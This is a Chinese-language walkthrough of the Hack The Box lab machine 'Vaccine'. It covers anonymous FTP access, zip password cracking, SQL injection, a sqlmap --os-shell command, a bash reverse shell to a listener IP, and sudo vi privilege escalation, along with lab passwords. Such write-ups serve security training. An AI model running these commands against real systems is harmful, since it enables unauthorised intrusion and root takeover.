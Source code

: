 # HTB系列——[Vaccine]

## 一、信息收集

1. 端口扫描，发现开放了21、22、80三个端口，其中21端口ftp允许匿名登录,ftp版本为3.0.3，80端口有web服务，中间件为Apache 2.4.41，服务器系统为Ubuntu

   ![1.png](img/HTB/Vaccine/1.png)

2. 识别80端口web服务组件

   ![2.png](img/HTB/Vaccine/2.png)

## 二、漏洞利用

1. ftp未授权访问，匿名登录成功

   ![3.png](img/HTB/Vaccine/3.png)

2. dir查看ftp中的文件，发现存在一个backup.zip备份文件，get到本地，unzip尝试解压，发现有密码，需要爆破

   ![4.png](img/HTB/Vaccine/4.png)

3. 使用zip2john提取zip文件密码的hash值

   ![5.png](img/HTB/Vaccine/5.png)

4. 使用john进行hash计算得到密码

   ![6.png](img/HTB/Vaccine/6.png)

5. 如上图，密码为741852963，解压backup.zip，获得两个文件index.php、style.css

   ![7.png](img/HTB/Vaccine/7.png)

6. 查看index.php文件内容，发现用户名和密码，用户名为admin

   ![8.png](img/HTB/Vaccine/8.png)

7. 解密md5，密码明文为qwerty789

   ![9.png](img/HTB/Vaccine/9.png)

8. 访问80端口，是一个登录页面，使用前面获取到的账号密码登录

   ![10.png](img/HTB/Vaccine/10.png)

9. 成功进入后台，发现有一个搜索框，测试一下单引号

   ![11.png](img/HTB/Vaccine/11.png)

10. 发现单引号报错，再测试一下`1' and 1=1 --+`，发现页面回显正常，确定为报错注入

    ![12.png](img/HTB/Vaccine/12.png)

    ![13.png](img/HTB/Vaccine/13.png)

## 三、getshell

1. 使用sqlmap进行注入，由于后台需要登录，因此sqlmap参数需要加上cookie，网页F12，进入Network，刷新网页，点击一个数据包，在Headers中找到Cookie，复制Cookie的值

   ![14.png](img/HTB/Vaccine/14.png)

2. 使用sqlmap进行os-shell获取shell

   ``` shell
   sqlmap -u "http://10.129.132.122/dashboard.php?search=1" --batch --cookie="PHPSESSID=6gui1uavofhh3desotaqbm84ia" --os-shell
   ```

   ![15.png](img/HTB/Vaccine/15.png)

3. 先查看一下本机IP，然后通过os-shell反弹一个shell到kali上

   ![16.png](img/HTB/Vaccine/16.png)

4. kali使用nc监听一个端口，我这里是4444，os-shell执行以下命令反弹shell

   ``` shell
   bash -c "bash -i >& /dev/tcp/10.10.16.5/4444 0>&1"
   ```

   ![17.png](img/HTB/Vaccine/17.png)

5. 在/var/lib/postgresql下找到user.txt

   ![18.png](img/HTB/Vaccine/18.png)

6. 先找一下网站的绝对路径

   ![19.png](img/HTB/Vaccine/19.png)

7. 发现dashboard.php，cat查看源码，发现用户名postgres的密码

   ![20.png](img/HTB/Vaccine/20.png)

## 权限提升

1. ssh直接登录目标主机，执行命令sudo -l，查看有无可利用的提权信息

   ![21.png](img/HTB/Vaccine/21.png)

2. 发现`(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf`是root权限，使用vi编辑`/etc/postgresql/11/main/pg_hba.conf`时可获取root权限，执行以下命令

   ``` shell
    sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
   ```

   ![22.png](img/HTB/Vaccine/22.png)

3. shift+冒号，然后输入以下命令，回车

   ``` shell
   set shell=/bin/sh
   ```

   ![23.png](img/HTB/Vaccine/23.png)

4. 再shift+冒号，输入shell，回车

   ![24.png](img/HTB/Vaccine/24.png)

5. 成功获取到root权限

   ![25.png](img/HTB/Vaccine/25.png)

6. cd到root目录下，找到root.txt

   ![26.png](img/HTB/Vaccine/26.png)